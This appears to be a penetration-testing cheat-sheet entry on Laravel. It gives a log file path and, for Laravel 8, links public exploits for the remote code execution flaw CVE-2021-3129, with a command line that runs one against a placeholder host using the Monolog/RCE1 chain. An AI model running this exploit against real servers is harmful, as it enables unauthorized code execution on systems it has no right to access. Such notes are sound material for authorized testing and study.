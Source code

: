 # laravel

### Interesting Paths

```
# log file path
APP-NAME/storage/logs/laravel.log
```

## Laravel RCE

v 8

```
https://github.com/nth347/CVE-2021-3129_exploit
python3 exploit.py http://IP:PORT Monolog/RCE1 "whoami;id"


https://github.com/zhzyker/CVE-2021-3129
```
